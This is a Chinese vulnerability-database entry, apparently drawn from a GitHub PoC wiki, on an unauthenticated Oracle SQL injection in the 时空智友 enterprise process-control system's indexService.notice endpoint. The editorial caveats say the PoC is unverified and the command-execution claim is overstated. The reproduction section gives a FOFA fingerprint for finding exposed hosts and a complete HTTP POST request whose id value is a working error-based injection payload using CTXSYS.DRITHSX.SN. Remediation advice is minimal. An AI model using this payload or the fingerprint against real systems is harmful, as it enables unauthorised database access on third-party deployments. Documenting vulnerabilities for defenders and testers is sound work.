

# 时空智友 indexService.notice id Oracle SQL 注入

## 条目说明

- 对象与具体问题：时空智友；indexService.notice id Oracle SQLi
- 版本、配置及部署条件：无版本；CTXSYS函数权限相关
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- SQLi表达式不支持任意命令执行断言，应限制数据库影响
- JSON请求缺Content-Type；Oracle特定报错函数前提未列
- FOFA截断，无基线/响应文本/修复；在野无依据

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

时空智友企业流程化管控系统 indexService.notice 存在SQL注入，未授权攻击者可进行任意命令执行，查询数据库相关内容等。

## 影响版本

时空智友企业流程化管控系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="继续登录将挤掉原登录设备"

POC/EXP：

```http
POST /formservice?service=indexService.notice HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

{"id":"1' AND 6448=CTXSYS.DRITHSX.SN(6448,(CHR(113)||CHR(122)||CHR(112)||CHR(118)||CHR(113)||(SELECT (CASE WHEN (6448=6448) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(122)||CHR(118)||CHR(118)||CHR(113)))-- fKEk"}
```





## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
